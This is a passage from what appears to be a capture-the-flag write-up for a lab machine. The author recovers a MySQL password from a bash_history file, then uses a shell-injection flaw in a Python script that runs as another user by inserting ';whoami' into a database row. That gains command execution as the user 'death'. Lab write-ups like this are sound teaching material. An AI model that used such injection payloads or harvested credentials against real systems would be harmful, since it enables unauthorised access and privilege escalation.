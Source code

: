 Let's do it:
```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

```
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```

After running some more enumeration, I found something in the bash_history file of lucien:

```
mysql -u lucien -plucien42DBPASSWORD
```

This gives us access to mysql. Going back to getDreams.py, let's read version we found in /opt/ again, since this is most likely a copy of the script we can execute.

```
 command = f"echo {dreamer} + {dream}"
 shell = subprocess.check_output(command, text=True, shell=True)
```

Those 2 lines are critical. first, we construct a formatted string that takes the dreamer and dream and echoes those. Then we pass this string into the shell and execute it. Since we have access to mysql now, we can abuse this to inject shell commands.

```In mysql shell
# we know the database is called library
use library
show tables
#shows us the dreams table
#let's insert a small test into the db to check if everything works as expected
INSERT INTO dreams VALUES ('attacker', ';whoami')
```

Now we can execute the script again:
```
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

attacker +
death

```
